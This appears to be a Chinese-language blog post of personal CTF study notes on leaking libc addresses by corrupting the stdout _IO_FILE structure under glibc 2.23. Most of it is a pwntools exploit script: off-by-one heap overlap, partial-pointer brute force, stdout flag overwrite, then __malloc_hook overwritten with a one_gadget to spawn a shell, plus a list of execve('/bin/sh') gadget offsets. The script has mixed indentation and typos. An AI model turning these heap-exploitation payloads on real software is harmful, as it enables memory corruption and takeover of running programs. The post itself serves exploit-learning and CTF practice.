 ```yaml
---
layout:     post
title:      IOfile泄露libc地址学习笔记
subtitle:   笔记
date:       2020-11-14
author:     X1ng
header-img: IOfile泄露libc.jpg
catalog: true
tags:

    - 学习笔记
    - IOfile泄露libc

---
```


由于做过的题太少了（太菜了），很多时候就算知道某个套路题，调试写出exp也很慢，平时不做题到比赛时已经把知识点忘光了，水篇笔记让我比赛的时候快速回忆IOfile泄露libc的知识点

## 利用方法

其实就是修改stdout的flag位为`0xfbad1800`,并且将`_IO_write_base`的最后一个字节改小，输出一些内容，这些内容里面就包含libc地址，具体的原理网上都可以找到讲的很好的师傅，可以看看[这个师傅的博客](https://n0va-scy.github.io/2019/09/21/IO_FILE/)

### 在libc-2.23.so下

构造堆块重叠时，需要让一块内存先进入0x70大小的fastbin中，然后再让它进入unsortbin中，最后修改unsortedbin下留下的`main_arena+88`地址

![](https://tva1.sinaimg.cn/large/0081Kckwly1gkp2s5in4hj30jy080gn4.jpg)

覆盖最后两字节为`\xdd\xN5`，N需要爆破1/16，实际上应该是比`main_arena+88`大了0x100，比如上图在调试的时候可以用gdb的`set`命令将fd修改为0x7f8d780af5dd，方便调试

malloc两次之后就可以将chunk分配到`_IO_2_1_stdout_`结构体之前的一个地方，因为这段内存中的数据为`0xNNNNNNNNNNNNNNNN 0xNNNNNNNN0000007f`，可以绕过fastbin分配的时候对size的检查

然后填充payload：`'A'*0x33 + p64(0xfbad1800) + p64(0)*3 + '\x00'`

接收libc中的地址：`leak = u64(ru("\x7f")[-6:].ljust(8,'\x00'))`

如果有libc文件也可以用偏移直接算出libc基址

```python
IO_stderr = u64(ru("\x7f")[-6:].ljust(8,'\x00'))-192
libc_base = IO_stderr - libc.symbols['_IO_2_1_stderr_']
```

就完成了泄露

举个利用的栗子

```python
#!/usr/bin/python

from pwn import *
import sys
#from LibcSearcher import LibcSearcher
context.log_level = 'debug'
context.arch='amd64'

local=1
binary_name='pwn'
#libc_name='libc.so.6'
libc_name='libc-2.23.so'


def z(a=''):
    if local:
        gdb.attach(p,a)
        if a=='':
            raw_input
    else:
        pass
ru=lambda x:p.recvuntil(x)
sl=lambda x:p.sendline(x)
sd=lambda x:p.send(x)
sa=lambda a,b:p.sendafter(a,b)
sla=lambda a,b:p.sendlineafter(a,b)
ia=lambda :p.interactive()
def leak_address():
    if(context.arch=='i386'):
        return u32(p.recv(4))
    else :
        return u64(p.recv(6).ljust(8,b'\x00'))

def cho(num):
    sla(">> ",str(num))

def add(size):
    cho(1)
    sla("size?",str(size))

def edit(idx,con):
    cho(4)
    sla("index ?",str(idx))
    sa("content ?", con)

def delete(idx):
    cho(2)
    sla("index ?",str(idx))

while True:
	try:
		if local:
    		p=process("./"+binary_name)
   			e=ELF("./"+binary_name)
				libc=ELF("./"+libc_name)
		else:
    		p=remote('',)
    		e=ELF("./"+binary_name)
    		ibc=ELF("./"+libc_name)
        
		add(0x18)#0
		add(0xf8)
		add(0x68)
		add(0x18)
		edit(0,'a'*0x18+'\x71')
    delete(1)
    #off-by-one，构造堆块重叠
    
		delete(2)
    #将目标chunk放入fastbin
    
		add(0xf8)#1，让fastbin中chunk的fd中保存main_arena+88
		add(0x58)#2，与fastbin中重叠
		
		edit(2,'\xdd\x25')
    #修改低位两字节
		
		add(0x68)#4
		add(0x68)#5，该chunk在`_IO_2_1_stdout_`结构体附近
		
		edit(5,'a'*0x33 + p64(0xfbad1800) + p64(0)*3 + '\x00')
    #填充payload
    
		IO_stderr = u64(ru("\x7f")[-6:].ljust(8,'\x00'))-192
		libc_base = IO_stderr - libc.symbols['_IO_2_1_stderr_']
		print 'libc:' + hex(libc_base)
		malloc_hook = libc_base + libc.symbols['__malloc_hook']
    print 'malloc:' + hex(malloc_hook-0x10)
		#接收地址
    
		add(0x18)#6
		add(0xf8)
		add(0x68)
		add(0x18)
		edit(6,'a'*0x18+'\x71')
		delete(7)
		delete(8)
		add(0x168)#7
		edit(7,'a'*0xf0+p64(0)+p64(0x71)+p64(malloc_hook - 0x23))
		#故技重施，分配chunk到malloc_hook附近
		add(0x68,'b')#8
		add(0x68,'b')#10
		edit(10,'\x00'*0x13 + p64(libc_base + 0x45226))
		#填充payload，覆盖malloc_hook为one_gadget
		cho(1)
    sla("size?",str(100))
		#调用malloc		
		ia()
		break
	except:
		p.close()

'''
0x45226 execve("/bin/sh", rsp+0x30, environ)
constraints:
	rax == NULL


0x4527a execve("/bin/sh", rsp+0x30, environ)
constraints:
  [rsp+0x30] == NULL


0xf0364 execve("/bin/sh", rsp+0x50, environ)
constraints:
  [rsp+0x50] == NULL


0xf1207 execve("/bin/sh", rsp+0x70, environ)
constraints:
  [rsp+0x70] == NULL
'''
```



### 在libc-2.27.so下

在libc-2.27环境下由于有了tcache，不需要特意将chunk分配到内存中的数据为`0xNNNNNNNNNNNNNNNN 0xNNNNNNNN0000007f`的地址上了

